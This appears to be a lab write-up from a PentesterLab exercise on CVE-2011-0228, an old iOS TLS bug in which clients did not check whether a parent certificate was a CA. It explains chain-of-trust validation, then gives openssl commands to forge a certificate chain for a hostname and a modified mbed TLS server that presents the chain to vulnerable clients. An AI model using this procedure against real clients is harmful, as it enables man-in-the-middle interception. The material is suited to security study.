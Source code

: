 # CVE-2011-0228

### x509 verification and chain of trust

As part of a request sent over TLS, before sending the request, the client will make sure that:

* The certificate is valid.
* The certificate matches the hostname it's visiting.

Validating a certificate's validity can be divided into multiple steps:

* Ensuring the current certificate did not expired and is valid for the current time (the issue date is not in the future)..
* Ensuring that the current certificate is signed by a valid certificate authority (CA).
* Ensuring that the parent certificate is a certificate authority.

These checks are performed for all certificates in the certificate chain to established a chain of trust. The first certificate (root CA) is embedded in your browser/system and is already trusted. If all certificates in the chain can be validated, the leaf certificate (last certificate in the chain) can be trusted.

### Vulnerability

CVE-2011-0228 impacted iOS before 4.2.10 and 4.3.x before 4.3.5. This  issue is located in the last step of the verification: "ensuring that  the parent certificate is a certificate authority". TLS stack impacted  by CVE-2011-0228 did not verify that constraint. This allows an attacker to generate a malicious "valid" certificate for example.org using a  valid certificate even if he is not a certificate authority. 

### Generating Malicious certificate

* To start, you will need a valid certificate and its private key. You can get one [here](https://pentesterlab.com/exercises/mitm_IV/attachments).

* If you inspect the certificate, you can see that it's not a certificate authority as **CA:FALSE**:

  ```bash
  $ openssl x509 -in hackingwithpentesterlab.link.crt -text
  [...]
          X509v3 extensions:
  [...]
              X509v3 Basic Constraints: critical
                  CA:FALSE
  [...]
  ```

  NOTE : **However, nothing prevents you from creating your own certificate and  signing it with the private key. TLS clients (unless they are vulnerable to CVE-2011-0228) will just reject this certificate as one of your  certificates is not a certificate authority.**

* you can create a private key using:

  ```bash
  $ openssl genrsa -out mitm4.pentesterlab.com.key 2048
  ```

* and a certificate signing request (CSR) for your future certificate:

  ```bash
  $ openssl req -new -sha256 -key mitm4.pentesterlab.com.key -out mitm4.pentesterlab.com.csr
  You are about to be asked to enter information that will be incorporated
  into your certificate request.
  What you are about to enter is what is called a Distinguished Name or a DN.
  There are quite a few fields but you can leave some blank
  For some fields there will be a default value,
  If you enter '.', the field will be left blank.
  -----
  Country Name (2 letter code) [AU]:AU
  State or Province Name (full name) [Some-State]:Victoria
  Locality Name (eg, city) []:Melbourne
  Organization Name (eg, company) [Internet Widgits Pty Ltd]:PentesterLab
  Organizational Unit Name (eg, section) []:
  Common Name (e.g. server FQDN or YOUR name) []:mitm4.pentesterlab.com
  Email Address []:
  
  Please enter the following 'extra' attributes
  to be sent with your certificate request
  A challenge password []:
  An optional company name []:
  ```

  **You don't need to setup a password and you can set any values for these fields aside from the `Common Name (e.g. server FQDN or YOUR name)` that needs to perfectly match the hostname accessed by the vulnerable client.**

* To get from the CSR to a certificate, you will need to setup some files and directory to get `openssl` to work:

  ```bash
  % mkdir -p demoCA/private demoCA/newcerts
  % cp hackingwithpentesterlab.link.key demoCA/private/cakey.pem
  % cp hackingwithpentesterlab.link.crt demoCA/cacert.pem
  % touch demoCA/index.txt
  % echo 01 > demoCA/serial
  ```

* You can sign the CSR with the `hackingwithpentesterlab.link.key` 's  key and openssl configuration file:

  ```bash
  % openssl ca   -config openssl.cnf -verbose  -out mitm4.pentesterlab.com.crt -infiles mitm4.pentesterlab.com.csr
  [...]
  Certificate is to be certified until Feb  2 21:20:52 2017 GMT (365 days)
  Sign the certificate? [y/n]:y
  
  
  1 out of 1 certificate requests certified, commit? [y/n]y
  Write out database with 1 new entries
  writing new certificates
  writing ./demoCA/newcerts/01.pem
  Data Base Updated
  ```

  openssl will automatically take cacert.pem file from `demoCA/cacert.pem` and cakey.pem from `demoCA/private/cakey.pem` for signing the certificate.

  

  Now, you will just need to concatenate the certificates to create your malicious chain (`myca.pem`).

### Making Chain of trusts

* So, **GandiStandardSSLCA2.pem** (Parent CA) should be the CA for `hackingwithpentesterlab.link.crt` and for `mitm4.pentesterlab.com.crt` too.

* But the system doesn't verify that for `mitm4.pentesterlab.com.crt`  the CA **GandiStandardSSLCA2.pem** is must.

* So. now we will MADE: **GandiStandardSSLCA2.pem** as CA for `hackingwithpentesterlab.link.crt` 

  and **hackingwithpentesterlab.link.crt** as CA for `mitm4.pentesterlab.com.crt`

  now we make a file `myca.pem` which make this chain of trust in one file.

  ```bash
  $ cat mitm4.pentesterlab.com.crt hackingwithpentesterlab.link.crt GandiStandardSSLCA2.pem > myca.pem
  ```

### Setting Up malicious server

* Unfortunately, OpenSSL is a bit too smart on this and will not present an invalid chain.

* So, we'll use **mbed TLS**

  mbed TLS comes with some code examples. We can use `programs/ssl/ssl_server.c` and modify it to get what we want.

  First, let's make sure it compiles (on Debian):

  ```bash
  $ wget https://tls.mbed.org/download/mbedtls-2.2.1-apache.tgz
  $ tar -zxf mbedtls-2.2.1-apache.tgz
  $ cd mbedtls-2.2.1
  $ apt-get update && apt-get upgrade #hygiene
  $ apt-get install build-essential
  $ make
  ```

* Now that it's compiled we can start modifying the file `programs/ssl/ssl_server.c` to change the following:

  - Load the certificates' chain from a file.
  - Load the private key from a file.

* To load the certificate chain from a file, you just need to change (around line 134):

  ```c
  ret = mbedtls_x509_crt_parse( &srvcert, (const unsigned char *) mbedtls_test_srv_crt, mbedtls_test_srv_crt_len );
  ```

  by:

  ```c
  ret =  mbedtls_x509_crt_parse_file(&srvcert, "/root/myca.pem");
  ```

  To load the key from a file, you just need to change (around line 150):

  ```c
  ret =  mbedtls_pk_parse_key( &pkey, (const unsigned char *) mbedtls_test_srv_key, mbedtls_test_srv_key_len, NULL, 0 );
  ```

  by:

  ```c
  ret =  mbedtls_pk_parse_keyfile(&pkey, "/root/mitm4.pentesterlab.com.key",NULL);
  ```

* Finally, you just need to change the port used by the server from `4433` to `443`. The port is set when the code calls the function `mbedtls_net_bind`. 

* Once you performed both modification, you need to recompile the code:

  ```bash
  $ make
  ```

* You should now be able to present your malicious chain to legitimate clients by running the server:

  ```bash
  $ ./programs/ssl/ssl_server
  ```

